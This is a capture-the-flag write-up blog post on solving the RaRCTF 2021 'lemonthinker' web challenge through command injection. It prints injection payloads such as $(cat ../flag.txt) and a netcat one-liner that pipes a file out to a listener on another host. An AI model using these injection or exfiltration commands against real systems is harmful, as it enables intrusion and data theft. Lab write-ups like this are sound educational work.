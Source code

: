 ```yaml
---
layout: post
title: lemon thinker rarctf 2021 Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/lemon-thinker/Screenshot_1.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/lemon-thinker/Screenshot_1.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>lemon thinker rarctf 2021 Web Challenges Writeup </h1>  
 <!--more-->

Hello all , we hope all of you is well 
This writeup is from Abdoghazy , Mohamed Tarek
Today we will explain how we could solve lemonthinker web challenge from rarctf .

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_1.png" /> 

As we See This is an input and "Generate Your lemonthinker" 
after trying it we got this photo
 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_2.png" /> 

note that the source code is attached so let's see what inisde it 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_3.png" /> 

As we see at line 24 it takes the name from me and passes it to the command that running another script
and there is no filtertion for the input that passes into the command so for sure we thought it's a command injection
note that the os is linux 
the command : python3 generate.py {filename} \"{text}\" 
the user input will be insted of {text} so we will inject there 

as always we tried these payloads : ;id , ||whoami , &&id

but unforently it's not working with us then we see that the input is passes into "" two double qoutes 
so our payloads didn't working and as we learn at bash we could execute commands from this "$(ls)"
and when we tried it we got the response from the server Alhamdullah

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_4.png" /> 

note : we tried to get reverse shell but no waaay :(
so after this let's read the flag !!

note that we got that the flag is in ../flag.txt from the source 

so i tried :  $(cat ../flag.txt) and it returned this photo :

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_5.png" /> 

so let's read the source of generate.py to know why 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_6.png" /> 

as you see at line 39 if the rarctf in the respone it will give us the image that we see
so i tried to use this command : $(rev ../flag.txt)  and got this response !

pic 7 

as you see we cannot read more than 18 char and there is many chars (it's more that 70 char :) )
so there is two ways to read the flag : 

First Way to use this command to read the flag part by part : $(cat ../flag.txt | cut -c 0-3) 

Then The Second Way and i think it's an amazing way xD 
after we solved it by the first way i had to travel to my Collage and when i on my way i got this idea ;)
i know when two hosts just connected togheter in same port by nc they could contact like a Chat :D 
so what if we tried to open listner on port 4444 and tried to sent the flag on it by this command 

$(rev ../flag.txt | nc ip port )
and we got the full flag by one Command Alhamdullah :D 3> 

last pic 

